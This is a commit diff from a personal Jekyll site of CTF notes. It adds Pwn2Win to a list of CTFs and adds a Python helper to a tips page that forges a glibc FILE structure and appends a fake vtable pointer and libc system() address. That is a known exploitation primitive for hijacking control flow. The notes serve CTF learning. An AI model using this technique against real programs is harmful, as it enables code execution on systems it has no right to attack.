

Before and after one commit to realsung/realsung.github.io, a Jekyll site: the page built from _notes/CTF/tip.md, in a window 1280 px wide and 1400 px high, scrolled down 5511 px. Shown: the whole window at 88% size, without its empty margins (0-1072 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries.

Commit message:
update pwn2win

````diff
--- a/_data/ctfs.yml
+++ b/_data/ctfs.yml
@@ -18,6 +18,7 @@
 - Plaid CTF
 - ASIS CTF
 - Defcon CTF
+- Pwn2Win CTF
 - Securinets CTF
 - HITCON CTF
 - RCTF
--- a/_notes/CTF/tip.md
+++ b/_notes/CTF/tip.md
@@ -249,6 +249,51 @@ ifind('call') : 호출되는 함수볼 수 있음
 
 <br />
 
+> File Struct
+
+```python
+def pack_file(_flags = 0,
+		_IO_read_ptr = 0,
+		_IO_read_end = 0,
+		_IO_read_base = 0,
+		_IO_write_base = 0,
+		_IO_write_ptr = 0,
+		_IO_write_end = 0,
+		_IO_buf_base = 0,
+		_IO_buf_end = 0,
+		_IO_save_base = 0,
+		_IO_backup_base = 0,
+		_IO_save_end = 0,
+		_IO_marker = 0,
+		_IO_chain = 0,
+		_fileno = 0,
+		_lock = 0):
+	struct = p32(_flags) + \
+	     p32(0) + \
+	     p64(_IO_read_ptr) + \
+	     p64(_IO_read_end) + \
+	     p64(_IO_read_base) + \
+	     p64(_IO_write_base) + \
+	     p64(_IO_write_ptr) + \
+	     p64(_IO_write_end) + \
+	     p64(_IO_buf_base) + \
+	     p64(_IO_buf_end) + \
+	     p64(_IO_save_base) + \
+	     p64(_IO_backup_base) + \
+	     p64(_IO_save_end) + \
+	     p64(_IO_marker) + \
+	     p64(_IO_chain) + \
+	     p32(_fileno)
+	struct = struct.ljust(0x88, '\0')
+	struct += p64(_lock)
+	struct = struct.ljust(0xd8, '\0')
+	return struct
+
+pack_file() + p64(vtable) + libc.symbols['system']
+```
+
+<br />
+
 # Web Tips
 
 > Use python requests
````
Also changed, not shown: _ctfs/2020-6-6-pwn2win-At-Your-Command.md (added, +113 -0 lines).
